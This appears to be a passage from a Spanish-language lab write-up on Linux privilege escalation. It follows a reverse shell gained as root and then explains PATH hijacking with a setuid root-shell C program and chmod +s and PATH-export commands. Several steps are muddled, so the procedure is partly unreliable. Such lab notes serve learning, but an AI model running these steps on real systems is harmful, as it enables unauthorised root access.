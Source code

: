 Ahora le damos permisos de ejecución:

<div style="text-align: center; ">
    <img src="../assets/images/Labs/EPL/Untitled 25.png" alt="Untitled" onclick="openModal(this.src)"/>
  </div>


Vemos que se ha producido la reverse_shell y estamos dentro como root:

<div style="text-align: center; ">
    <img src="../assets/images/Labs/EPL/Untitled 26.png" alt="Untitled" onclick="openModal(this.src)"/>
  </div>


# Escalar Privilegios: PATH Hijacking

Los comandos en Linux se ejecutan desde la izquierda a la derecha, por tanto, si colamos un archivo malicioso en dicha ruta se ejecutará sin problema.

 Si hacemos un `echo $PATH` vamos a obtener la ruta que sigue el sistema para buscar los ejecutables y scripts, es decir busca dichos ejecutables sin tener que especificar toda la ruta.

Para ellos hacemos:

1. Creamos un fichero con la extensión .c, es decir un fichero con código en c → `touch archivo.c`
2. Ahora introducimos el código malicioso poniendo tanto el `suid` como `sgid` a 0:
    
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    
    int main() {
        setuid(0); // Establece el ID de usuario a 0 (root)
        setgid(0); // Establece el ID de grupo a 0 (root)
        system("/bin/bash"); // Ejecuta una shell
        return 0;
    }
    ```
    
3. Mediante `gcc` vamos a compilarlo para que se convierta en ejecutable dicho binario → `gcc archivo.c -o archivo`
4. Ahora mediante `chmod +s archivo` vamos a dar asignarle permiso SUID, esto hará que se ejecute como root.
5. Ahora exportamos el directorio donde se encuentra dicho binario al PATH → `export PATH=<ruta_del_binario>:$PATH`
6. A continuación incluimos “/bin/bash” dentro del binario del PATH → `echo "/bin/bash" > archivo` (si previamente lo hemos hecho podemos saltárnoslo) y le damos todos los permisos `chmod 777 archivo`.
7. Finalmente, mediante `./archivo` ejecutamos el binario y escalamos privilegios.
